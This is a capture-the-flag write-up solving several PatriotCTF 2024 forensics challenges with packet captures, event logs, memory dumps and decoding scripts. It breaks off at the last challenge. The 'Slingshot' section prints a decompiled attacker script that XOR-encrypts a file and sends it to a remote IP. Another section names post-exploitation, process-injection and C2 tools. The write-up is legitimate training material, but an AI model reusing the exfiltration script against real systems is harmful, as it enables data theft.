PatriotCTF is an online jeopardy-style Capture The Flag competition hosted by George Mason University's Competitive Cyber Club, known as MasonCC. This event is designed to be inclusive, welcoming participants ranging from students to seasoned security professionals. The competition offers a diverse array of challenges, catering to various skill levels from beginner to expert.

## Simple Exfiltration [Forensics]

Solves: `288` Points: `100` Author: `Ryan Wong (shadowbringer007)`

Description: `We've got some reports about information being sent out of our network. Can you figure out what message was sent out.`

<a href="/assets/zip/pctf2024/exfiltration_activity_pctf_challenge.pcapng" class="btn btn-primary" download>
  <i class="fas fa-download"></i> exfiltration_activity_pctf_challenge.pcapng
</a>

<br>

We are provided with a pcapng file. Upon inspection, the Protocol Hierarchy Statistics shows 904 HTTP packets and 62 ICMP ones.



Inspecting HTTP streams doesn't reveal anything important being exfiltrated.



But ICMP packets show promise on their TTL header, characters are also visible in Hexdump. This reminds me of a MITRE Technique [T1048](https://attack.mitre.org/techniques/T1048/).



Using the following script retrieves the flag.

```python
import pyshark

def extract_ttl_values(pcapng_file):
    capture = pyshark.FileCapture(pcapng_file, display_filter='icmp')
    ttl_values = []
    for packet in capture:
        if 'IP' in packet and 'icmp' in packet:
            ttl = int(packet['IP'].ttl)
            ttl_values.append(ttl)
    return ttl_values

def convert_to_ascii(ttl_values):
    ascii_string = ''
    for ttl in ttl_values:
        ascii_string += chr(ttl)
    return ascii_string

# Example usage
pcapng_file = './PCTF/exfiltration_activity_pctf_challenge.pcapng'
ttl_values = extract_ttl_values(pcapng_file)
ascii_string = convert_to_ascii(ttl_values)
print("ASCII String:", ascii_string)
```

Flag: `pctf{time_to_live_exfiltration}`

## Bad Blood [Forensics]

Solves: `228` Points: `100` Author: `elbee3779`

Description: `Nothing is more dangerous than a bad guy that used to be a good guy. Something's going on... please talk with our incident response team.`

<a href="/assets/zip/pctf2024/suspicious.evtx" class="btn btn-primary" download>
  <i class="fas fa-download"></i> suspicious.evtx
</a>

<br>

We are provided with an evtx file (Windows XML EventLog) and four (4) questions to answer to get the flag. 

```
└─$ nc chal.competitivecyber.club 10001
Welcome analyst.
We recently had to terminate an employee due to a department-cut.
One of our most dramatic terminations was that of a C-suite executive, Jack Stoneturf.
We believe he may have maliciously infected his workstation to maintain persistence on the corporate network.
Please view the provided event logs and help us conduct our investigation.


Answer the following questions for the flag:
Q1. Forensics found post exploitation activity present on system, network and security event logs. What post-exploitation script did the attacker run to conduct this activity?
        Example answer: PowerView.ps1
>> <REDACTED>
That makes sense.

Q2. Forensics could not find any malicious processes on the system. However, network traffic indicates a callback was still made from his system to a device outside the network. We believe jack used process injection to facilitate this. What script helped him accomplish this?
        Example answer: Inject.ps1
>> <REDACTED>
That makes sense.

Q3. We believe Jack attempted to establish multiple methods of persistence. What windows protocol did Jack attempt to abuse to create persistence?
        Example answer: ProtoName
>> <REDACTED>
That makes sense.

Q4. Network evidence suggest Jack established connection to a C2 server. What C2 framework is jack using?
        Example answer: C2Name
>> <REDACTED>
That makes sense.

That'll do. Thanks for your help, here's a flag for your troubles.
pctf{<REDACTED>}
```

For this one, i used [chainsaw](https://github.com/WithSecureLabs/chainsaw)
to parse the important events logged on the file as well as checking it on Event Viewer.

#### 1.Forensics found post exploitation activity present on system, network and security event logs. What post-exploitation script did the attacker run to conduct this activity?

Chaisaw showed two powershell scripts have been run on the system, the post exploitation one or second one is Invoke-P0wnedshell.ps1



#### 2.Forensics could not find any malicious processes on the system. However, network traffic indicates a callback was still made from his system to a device outside the network. We believe jack used process injection to facilitate this. What script helped him accomplish this?

Process injection in memory was done via the first powershell script Invoke-UrbanBishop.ps1



#### 3.We believe Jack attempted to establish multiple methods of persistence. What windows protocol did Jack attempt to abuse to create persistence?

Answer is Windows Remote Management protocol or WinRM, a failed attempt hints towards this. 



#### 4.Network evidence suggest Jack established connection to a C2 server. What C2 framework is jack using?

After decoding the sample executed and downloading it via cyberchef



And loading it on dnspy we get a GruntStager class, which is a stageless HTTP payload to get a reverse shell back from a famous C2.



So answer is Covenant which is a .NET Command & Control/C2 framework.

Flag: `pctf{3v3nt_l0gs_reve4l_al1_a981eb}`

## Slingshot [Forensics]

Solves: `111` Points: `280` Author: `AJ Hoepfner (greatvaluerice)`

Description: `We have recently suffered a data breach, and we need help figuring out if any data was stolen. Can you investigate this pcap file and see if there is any evidence of data exfiltration and if possible, what was stolen.`

<a href="/assets/zip/pctf2024/Slingshot.pcapng" class="btn btn-primary" download>
  <i class="fas fa-download"></i> Slingshot.pcapng
</a>

<br>

We are provided with a pcapng file, where on Protocol Hierarchy Statistics shows some HTTP traffic, we used wireshark filter to get them.




We download download.pyc which is a compiled version of .py file, to decompile i used [pylingual.io](https://pylingual.io/) to get the following script
```python
# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: client.py
# Bytecode version: 3.11a7e (3495)
# Source timestamp: 2024-09-17 17:47:38 UTC (1726595258)

import sys
import socket
import time
import math
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
file = sys.argv[1]
ip = sys.argv[2]
port = 22993
with open(file, 'rb') as r:
    data_bytes = r.read()
current_time = time.time()
current_time = math.floor(current_time)
key_bytes = str(current_time).encode('utf-8')
init_key_len = len(key_bytes)
data_bytes_len = len(data_bytes)
temp1 = data_bytes_len // init_key_len
temp2 = data_bytes_len % init_key_len
key_bytes *= temp1
key_bytes += key_bytes[:temp2]
encrypt_bytes = bytes((a ^ b for a, b in zip(key_bytes, data_bytes)))
s.connect((ip, port))
s.send(encrypt_bytes)
```
It is a custom encryption script for a sent file over the port 22993, while it's possible to develop a pyshark script to get the encrypted bytes of the file i only copied them from wireshark into a local file.



Then i used a second script to decode the encrypted file.

```python
def decrypt_file(encrypted_file_path, timestamp, output_file_path):
    # Read the encrypted bytes from the file
    with open(encrypted_file_path, 'rb') as encrypted_file:
        encrypted_bytes = encrypted_file.read()

    # Generate the key based on the provided timestamp
    key_bytes = str(timestamp).encode('utf-8')
    
    # Prepare the key to match the length of the encrypted data
    init_key_len = len(key_bytes)
    encrypted_len = len(encrypted_bytes)
    
    # Repeat the key to match the length of the encrypted data
    temp1 = encrypted_len // init_key_len
    temp2 = encrypted_len % init_key_len
    key_bytes *= temp1
    key_bytes += key_bytes[:temp2]
    
    # Perform XOR decryption (XORing the encrypted bytes with the key)
    decrypted_bytes = bytes((a ^ b for a, b in zip(key_bytes, encrypted_bytes)))
    
    # Save the decrypted data to the output file
    with open(output_file_path, 'wb') as output_file:
        output_file.write(decrypted_bytes)

    print(f"Decryption successful. Decrypted file saved to: {output_file_path}")

# Example usage
# Replace 'encrypted_file.bin' with the path to the encrypted file from Wireshark
encrypted_file_path = 'encrypted_file.bin'

# Use the timestamp found in Wireshark
timestamp = 1726595769  # Example timestamp; replace with actual value

# Specify the output path for the decrypted file
output_file_path = 'decrypted_output_file.bin'

# Call the decrypt_file function to decrypt the file
decrypt_file(encrypted_file_path, timestamp, output_file_path)
```
The result is an image file containig the flag.



Flag: `PCTF{1f_y0u_41n7_f1r57_y0our3_l457}`

## A Dire Situation  [Forensics]

Solves: `87` Points: `328` Author: `Shiloh Smiles (arcticx)`

Description: `I really need help with my budget. Let's see if there's anything you can do with my current situation!`

<a href="/assets/zip/pctf2024/budget.wim" class="btn btn-primary" download>
  <i class="fas fa-download"></i> budget.wim
</a>

<br>

We are provided with a wim file, which is a Windows Imaging Format file, it can be mounted on widnows using dism tool.
```
C:\Users\vboxuser\Desktop>dism /mount-wim /wimfile:Z:\PCTF\budget.wim /index:1 /mountdir:C:\Users\vboxuser\Desktop\forensic\mount

Deployment Image Servicing and Management tool
Version: 10.0.19041.844

Mounting image
[==========================100.0%==========================]
The operation completed successfully.
```
Once mounted, checking the content inside reaveals two interesting files, one called budget and another called budget:streamingjpegjfif.
```
C:\Users\vboxuser\Desktop\forensic\mount>dir /r
 Volume in drive C has no label.
 Volume Serial Number is 2882-BB7E

 Directory of C:\Users\vboxuser\Desktop\forensic\mount

21/09/2024  20:39    <DIR>          .
                                368 .:$WIMMOUNTDATA:$DATA
21/09/2024  20:39    <DIR>          ..
21/09/2024  20:39               116 budget
                            121,151 budget:streamingjpegjfif:$DATA
               1 File(s)            116 bytes
               2 Dir(s)  16,200,642,560 bytes free
```
budget has nothing of value inside.
```
C:\Users\vboxuser\Desktop\forensic\mount>type budget
Can someone please help me budget? My family is dying.

Rent: $750
Insurance: $100
Streaming: $5000
Food: $200
```
What is left is budget:streamingjpegjfif which is an ADS or hidden file, we copy the contents locally in order to inspect it.
```
C:\Users\vboxuser\Desktop\forensic\mount>more < budget:streamingjpegjfif > streamingjpegjfif
```



The stream is called "streamingjpegjfif" which is hinting towards it being a jfif file but the header isn't correct. So to fix this, we edit the first bytes with FF D8 FF E0. Then the flag is revealed.


Flag: `PCTF{alternate_d4t4_str3aming_&_chill}`

## Structured Annuity [Forensics]

Solves: `70` Points: `362` Author: `Matthew Johnson (meatball5201)`

Description: `These J.G. Wentworth ads are getting out of hand! Now we're evem getting reports that they're using malware to try and get people cash for their structured settlements! Luckily, we were able to capture some network traffic of this c2 beacon, along with the binary and a memory capture of the running process. Unfortunately, it seems like the c2 agent contains no static keys and instead generates them at run time. Can you decrypt their comms?`

<a href="/assets/zip/pctf2024/structured_annuity.zip" class="btn btn-primary" download>
  <i class="fas fa-download"></i> structured_annuity.zip
</a>

<br>

We are provided with a zip file, containing three files.
```
└─$ zipinfo ../structured_annuity.zip 
Archive:  ../structured_annuity.zip
Zip file size: 135602 bytes, number of entries: 4
drwxr-xr-x  3.0 unx        0 bx stor 24-Sep-19 03:10 structuredAnnuity/
-rw-r--r--  3.0 unx   640912 bx defN 24-Sep-19 03:08 structuredAnnuity/structured_annuity.dump
-rw-r--r--  3.0 unx     1804 bx defN 24-Sep-19 03:08 structuredAnnuity/structured_annuity.pcapng
-rw-r--r--  3.0 unx    29464 bx defN 24-Sep-19 03:08 structuredAnnuity/structured_annuity
4 files, 672180 bytes uncompressed, 134792 bytes compressed:  79.9%
```
This challenge was a weird one to be honest because i got the flag unintendedly through strings command.
```
└─$ strings structured_annuity.dump | grep {
l4{;
f2A{
P{bX
B#{oe
N)+x{
}W0N_H5@C_D33N_I_7U8{FTCP ohce
}W0N_H5@C_D33N_I_7U8{FTCP
```
The reverse string is flag. The intended way according to the challenge description is reversing the binary to get ahold on a RSA message transmission using pcap TCP traffic, then decrypting it using RSA cracking methods.

Flag: `PCTF{8U7_I_N33D_C@5H_N0W}`

## Suspicious Drive [Forensics]

Solves: `46` Points: `410` Author: `Shiloh Smiles (arcticx)`

Description: `An overseas branch of our company was almost hit by an attack from a well-known ransomeware group, but it seemed their final payload failed. We found a suspicious drive on premises, as well as a common string in our logs: PCTF{d)zn+d$+zqbb!t+h)!#+if+y)u+zi!l}. Can you help us figure out what this payload might have been?`

<a href="/assets/zip/pctf2024/suspiciousdrive.zip" class="btn btn-primary" download>
  <i class="fas fa-download"></i> suspiciousdrive.zip
</a>

<br>

We are provided with a zip file containing a bashbunny usb drive's files.
```
└─$ zipinfo suspiciousdrive.zip 
Archive:  suspiciousdrive.zip
Zip file size: 29039 bytes, number of entries: 38
-rw-a--     6.3 fat       84 bx stor 24-Aug-17 20:01 config.txt
drwx---     6.3 fat        0 bx stor 21-Jan-31 02:29 docs/
-rw-a--     6.3 fat    10140 bx defN 21-Jan-31 02:29 docs/EULA
-rw-a--     6.3 fat      471 bx defN 21-Jan-31 02:29 docs/full_documentation.html
-rw-a--     6.3 fat    16319 bx defN 21-Jan-31 02:29 docs/LICENSE
-rw-a--     6.3 fat    16505 bx defN 21-Jan-31 02:29 docs/readme.txt
drwx---     6.3 fat        0 bx stor 21-Jan-31 02:29 languages/
-rw-a--     6.3 fat     4305 bx defN 24-Aug-17 19:06 languages/be.json
drwx---     6.3 fat        0 bx stor 21-Jan-31 02:29 loot/
drwx---     6.3 fat        0 bx stor 21-Jan-31 02:29 payloads/
drwx---     6.3 fat        0 bx stor 21-Jan-31 02:29 payloads/extensions/
-rw-a--     6.3 fat      725 bx defN 21-Jan-31 02:29 payloads/extensions/cucumber.sh
-rw-a--     6.3 fat      820 bx defN 21-Jan-31 02:29 payloads/extensions/debug.sh
-rw-a--     6.3 fat      136 bx defN 21-Jan-31 02:29 payloads/extensions/ducky_lang.sh
-rw-a--     6.3 fat     1461 bx defN 21-Jan-31 02:29 payloads/extensions/get.sh
-rw-a--     6.3 fat     1980 bx defN 21-Jan-31 02:29 payloads/extensions/get2_dhclient.sh
-rw-a--     6.3 fat      593 bx defN 21-Jan-31 02:29 payloads/extensions/mac_happy.sh
-rw-a--     6.3 fat      352 bx defN 21-Jan-31 02:29 payloads/extensions/requiretool.sh
-rw-a--     6.3 fat     1116 bx defN 21-Jan-31 02:29 payloads/extensions/run.sh
-rw-a--     6.3 fat     1648 bx defN 21-Jan-31 02:29 payloads/extensions/runpayload.sh
-rw-a--     6.3 fat     1363 bx defN 21-Jan-31 02:29 payloads/extensions/setkb.sh
-rw-a--     6.3 fat      337 bx defN 21-Jan-31 02:29 payloads/extensions/wait.sh
-rw-a--     6.3 fat      305 bx defN 21-Jan-31 02:29 payloads/extensions/waiteject.sh
-rw-a--     6.3 fat      703 bx defN 21-Jan-31 02:29 payloads/extensions/wait_for_notpresent.sh
-rw-a--     6.3 fat      691 bx defN 21-Jan-31 02:29 payloads/extensions/wait_for_present.sh
drwx---     6.3 fat        0 bx stor 21-Jan-31 02:29 payloads/library/
-rw-a--     6.3 fat      478 bx defN 21-Jan-31 02:29 payloads/library/get_payloads.html
drwx---     6.3 fat        0 bx stor 21-Jan-31 02:29 payloads/switch1/
-rw-a--     6.3 fat       62 bx defN 24-Aug-17 21:12 payloads/switch1/payload.txt
drwx---     6.3 fat        0 bx stor 21-Jan-31 02:29 payloads/switch2/
-rw-a--     6.3 fat       62 bx defN 24-Aug-17 21:13 payloads/switch2/payload.txt
drwx-hs     6.3 fat        0 bx stor 24-Jan-02 20:27 System Volume Information/
-rw-a--     6.3 fat       76 bx defN 24-Jan-03 21:53 System Volume Information/IndexerVolumeGuid
-rw-a--     6.3 fat       12 bx stor 24-Jan-02 20:27 System Volume Information/WPSettings.dat
drwx---     6.3 fat        0 bx stor 21-Jan-31 02:29 tools/
-rw-a--     6.3 fat      515 bx defN 21-Jan-31 02:29 upgrade.html
-rw-a--     6.3 fat        8 bx stor 21-Jan-31 02:29 version.txt
-rw-a--     6.3 fat     3300 bx defN 21-Jan-31 02:29 win7-win8-cdc-acm.inf
38 files, 64567 bytes uncompressed, 22987 bytes compressed:  64.4%
```
Searching around the drive, we find under languages folder be.json which is the Belgian language layout but the supposed payload in logs is in us.json format.

A little python script to get the original payload is the following.
```python
import json

# Load both JSON files (be.json and us.json)
with open("be.json", "r") as be_file:
    be_map = json.load(be_file)

with open("us.json", "r") as us_file:
    us_map = json.load(us_file)

# The string that needs conversion based on the layouts
data = "PCTF{d)zn+d$+zqbb!t+h)!#+if+y)u+zi!l}."
output = ""

# Conversion process: map each character from 'us.json' to its equivalent in 'be.json'
for c in data:
    # If the character exists in the 'us.json' layout
    if c in us_map:
        us_scancode = us_map[c]
        
        # Find the equivalent character in 'be.json' that has the same scancode as in 'us.json'
        be_equivalent = next((k for k, v in be_map.items() if v == us_scancode), None)
        
        if be_equivalent:
            # Replace the character with the Belgian equivalent
            output += be_equivalent
        else:
            # If no equivalent is found, keep the original character
            output += c
    else:
        # If the character is not found in 'us.json', keep it unchanged
        output += c

print("Converted data:", output)
```
Hence the flag.

Flag: `PCTF{d0wn_d4_wabb1t_h013_if_y0u_wi1l}`

## Secret Note [Forensics]

Solves: `16` Points: `470` Author: `Txnner`

Description: `I was told to never write down my passwords on a sticky note, so instead I wrote them down on my computer!`

<a href="/assets/zip/pctf2024/capture.pcapng" class="btn btn-primary" download>
  <i class="fas fa-download"></i> capture.pcapng
</a>

<br>

We are provided with a pcapng file, upon inspection it contains USB HID data of a hub virtual mouse.

